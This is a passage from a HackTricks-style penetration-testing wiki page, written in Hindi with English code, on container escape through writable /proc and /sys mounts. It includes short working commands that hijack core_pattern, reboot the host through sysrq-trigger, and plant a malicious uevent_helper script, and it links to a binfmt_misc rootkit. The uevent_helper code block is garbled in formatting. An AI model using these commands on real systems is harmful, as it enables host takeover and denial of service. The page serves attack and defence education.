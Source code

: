# Sensitive Mounts

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

`/proc` और `/sys` का उचित namespace isolation के बिना खुलासा महत्वपूर्ण सुरक्षा जोखिमों को पेश करता है, जिसमें हमले की सतह का विस्तार और जानकारी का खुलासा शामिल है। ये निर्देशिकाएँ संवेदनशील फ़ाइलें रखती हैं जो, यदि गलत तरीके से कॉन्फ़िगर की गईं या किसी अनधिकृत उपयोगकर्ता द्वारा एक्सेस की गईं, तो कंटेनर से भागने, होस्ट में संशोधन करने, या आगे के हमलों में मदद करने वाली जानकारी प्रदान कर सकती हैं। उदाहरण के लिए, `-v /proc:/host/proc` को गलत तरीके से माउंट करने से AppArmor सुरक्षा को बायपास किया जा सकता है, जिससे `/host/proc` असुरक्षित रह जाता है।

**आप प्रत्येक संभावित vuln के बारे में और विवरण पा सकते हैं** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Vulnerabilities

### `/proc/sys`

यह निर्देशिका कर्नेल वेरिएबल को संशोधित करने की अनुमति देती है, आमतौर पर `sysctl(2)` के माध्यम से, और इसमें कई उपनिर्देशिकाएँ शामिल हैं:

#### **`/proc/sys/kernel/core_pattern`**

* [core(5)](https://man7.org/linux/man-pages/man5/core.5.html) में वर्णित।
* कोर-फ़ाइल उत्पन्न होने पर निष्पादित करने के लिए एक प्रोग्राम को परिभाषित करने की अनुमति देता है, पहले 128 बाइट्स को तर्क के रूप में। यदि फ़ाइल एक पाइप `|` से शुरू होती है तो यह कोड निष्पादन की ओर ले जा सकता है।
*   **परीक्षण और शोषण उदाहरण**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Set custom handler
sleep 5 && ./crash & # Trigger handler
```

#### **`/proc/sys/kernel/modprobe`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) में विस्तृत।
* कर्नेल मॉड्यूल लोडर का पथ रखता है, जिसे कर्नेल मॉड्यूल लोड करने के लिए बुलाया जाता है।
*   **एक्सेस जांचने का उदाहरण**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) में संदर्भित।
* एक वैश्विक ध्वज जो नियंत्रित करता है कि क्या कर्नेल पैनिक करता है या OOM स्थिति होने पर OOM किलर को बुलाता है।

#### **`/proc/sys/fs`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) के अनुसार, फ़ाइल प्रणाली के बारे में विकल्प और जानकारी रखता है।
* लेखन पहुंच विभिन्न सेवा से वंचित हमलों को सक्षम कर सकती है।

#### **`/proc/sys/fs/binfmt_misc`**

* उनके जादुई संख्या के आधार पर गैर-देशी बाइनरी प्रारूपों के लिए व्याख्याकारों को पंजीकृत करने की अनुमति देता है।
* यदि `/proc/sys/fs/binfmt_misc/register` लिखा जा सकता है तो यह विशेषाधिकार वृद्धि या रूट शेल पहुंच की ओर ले जा सकता है।
* प्रासंगिक शोषण और व्याख्या:
* [Poor man's rootkit via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* गहन ट्यूटोरियल: [वीडियो लिंक](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Others in `/proc`

#### **`/proc/config.gz`**

* यदि `CONFIG_IKCONFIG_PROC` सक्षम है तो कर्नेल कॉन्फ़िगरेशन प्रकट कर सकता है।
* चल रहे कर्नेल में कमजोरियों की पहचान करने के लिए हमलावरों के लिए उपयोगी।

#### **`/proc/sysrq-trigger`**

* Sysrq कमांड को बुलाने की अनुमति देता है, संभावित रूप से तत्काल सिस्टम रिबूट या अन्य महत्वपूर्ण क्रियाएँ कर सकता है।
*   **होस्ट को रिबूट करने का उदाहरण**:

```bash
echo b > /proc/sysrq-trigger # Reboots the host
```

#### **`/proc/kmsg`**

* कर्नेल रिंग बफर संदेशों को उजागर करता है।
* कर्नेल शोषण, पते के रिसाव में मदद कर सकता है, और संवेदनशील सिस्टम जानकारी प्रदान कर सकता है।

#### **`/proc/kallsyms`**

* कर्नेल द्वारा निर्यातित प्रतीकों और उनके पते की सूची बनाता है।
* कर्नेल शोषण विकास के लिए आवश्यक, विशेष रूप से KASLR को पार करने के लिए।
* पता जानकारी `kptr_restrict` को `1` या `2` पर सेट करने के साथ प्रतिबंधित है।
* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) में विवरण।

#### **`/proc/[pid]/mem`**

* कर्नेल मेमोरी डिवाइस `/dev/mem` के साथ इंटरफेस करता है।
* ऐतिहासिक रूप से विशेषाधिकार वृद्धि हमलों के प्रति संवेदनशील।
* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) पर अधिक।

#### **`/proc/kcore`**

* सिस्टम की भौतिक मेमोरी को ELF कोर प्रारूप में दर्शाता है।
* पढ़ने से होस्ट सिस्टम और अन्य कंटेनरों की मेमोरी सामग्री लीक हो सकती है।
* बड़ी फ़ाइल का आकार पढ़ने की समस्याओं या सॉफ़्टवेयर क्रैश का कारण बन सकता है।
* [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/) में विस्तृत उपयोग।

#### **`/proc/kmem`**

* कर्नेल वर्चुअल मेमोरी का प्रतिनिधित्व करने के लिए `/dev/kmem` के लिए वैकल्पिक इंटरफेस।
* पढ़ने और लिखने की अनुमति देता है, इसलिए कर्नेल मेमोरी में सीधे संशोधन।

#### **`/proc/mem`**

* भौतिक मेमोरी का प्रतिनिधित्व करने के लिए `/dev/mem` के लिए वैकल्पिक इंटरफेस।
* पढ़ने और लिखने की अनुमति देता है, सभी मेमोरी का संशोधन वर्चुअल से भौतिक पते को हल करने की आवश्यकता है।

#### **`/proc/sched_debug`**

* प्रक्रिया शेड्यूलिंग जानकारी लौटाता है, PID namespace सुरक्षा को बायपास करता है।
* प्रक्रिया के नाम, आईडी और cgroup पहचानकर्ताओं को उजागर करता है।

#### **`/proc/[pid]/mountinfo`**

* प्रक्रिया के माउंट namespace में माउंट बिंदुओं के बारे में जानकारी प्रदान करता है।
* कंटेनर `rootfs` या छवि के स्थान को उजागर करता है।

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

* कर्नेल डिवाइस `uevents` को संभालने के लिए उपयोग किया जाता है।
* `/sys/kernel/uevent_helper` में लिखने से `uevent` ट्रिगर होने पर मनमाने स्क्रिप्ट को निष्पादित किया जा सकता है।
*   **शोषण का उदाहरण**: %%%bash

#### Creates a payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Finds host path from OverlayFS mount for container

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

#### Sets uevent\_helper to malicious helper

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

#### Triggers a uevent

echo change > /sys/class/mem/null/uevent

#### Reads the output

cat /output %%%

#### **`/sys/class/thermal`**

* तापमान सेटिंग्स को नियंत्रित करता है, संभावित रूप से DoS हमलों या भौतिक क्षति का कारण बनता है।

#### **`/sys/kernel/vmcoreinfo`**

* कर्नेल पते लीक करता है, संभावित रूप से KASLR को खतरे में डालता है।

#### **`/sys/kernel/security`**

* `securityfs` इंटरफेस को रखता है, जो AppArmor जैसे Linux सुरक्षा मॉड्यूल की कॉन्फ़िगरेशन की अनुमति देता है।
* पहुंच एक कंटेनर को अपने MAC सिस्टम को निष्क्रिय करने में सक्षम कर सकती है।

#### **`/sys/firmware/efi/vars` and `/sys/firmware/efi/efivars`**

* NVRAM में EFI वेरिएबल के साथ इंटरैक्ट करने के लिए इंटरफेस को उजागर करता है।
* गलत कॉन्फ़िगरेशन या शोषण से लैपटॉप को ब्रिक या अनबूटेबल होस्ट मशीनों का कारण बन सकता है।

#### **`/sys/kernel/debug`**

* `debugfs` कर्नेल के लिए "कोई नियम नहीं" डिबगिंग इंटरफेस प्रदान करता है।
* इसकी अनियंत्रित प्रकृति के कारण सुरक्षा मुद्दों का इतिहास।

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
